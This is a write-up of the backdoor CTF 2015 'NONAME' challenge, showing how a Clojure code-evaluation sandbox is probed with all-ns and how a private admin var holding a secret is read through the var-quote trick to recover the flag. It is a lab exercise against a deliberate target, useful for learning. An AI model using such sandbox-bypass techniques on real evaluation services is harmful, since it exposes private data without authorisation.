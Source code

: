 # backdoor CTF 2015: [NONAME](https://backdoor.sdslabs.co/challenges/NONAME)

**Category:** Exploit
**Points:** 200
**Author:** [Amanpreet Singh](https://backdoor.sdslabs.co/users/apsdehal)
**Difficulty:**
**Solves:** 25
**Description:** 

* <https://backdoor.sdslabs.co/challenges/NONAME>

> Intrestingly enough, even though it was not expected, Chintu found a cool website to play with, though he can't get the flag. Can you? Visit [this](https://agile-garden-1672.herokuapp.com/). Submit the SHA-256 hash of the flag obtained.

## Write-up

We are given a Clojure sandbox and have to find the flag and secret of an user named admin.

Entering valid clojure code, we can execute several functions, e.g. printing the version:

```clojure
Give me some code:
> (clojure-version)
"1.4.0"
```

After learning about clojure, we first print the complete [namespace](http://clojure.org/namespaces) to find any suspicious imported functions or namespaces using the [all-ns](http://clojure.github.io/clojure/clojure.core-api.html#clojure.core/all-ns) function:

```clojure
> (all-ns)
[..see all-ns file..]
```

We see a namespace named `noname.people.admin`, so we try to find any variables within this namespace after importing this namespace:

```clojure
> (require '[noname.people.admin :as adm])
nil
> (adm/flag)
Ma flag is : [REDACTED]
> (adm/secret)
java.lang.IllegalStateException: var: #'noname.people.admin/secret is not public
```

Mhh, we can access the variable flag, but can't access secret. Secret must be private. Fortunately, there is a way to read private variables described [here](http://christophermaier.name/blog/2011/04/30/not-so-private-clojure-functions):

```clojure
> (#'adm/secret)
"Ma secret is: [REDACTED]"
```

We concat these two strings and make a sha256 hash out of them and get the flag!

## Other write-ups and resources

* <http://geeksspeak.github.io/blog/2015/04/03/backdoor-ctf-2015-noname-writeup/>
* [Indonesian](https://docs.google.com/document/d/1O6TLRT0Vvyd5YT_GBlHvrCuhuGM_E_CJXXitNsdNbaw/edit)
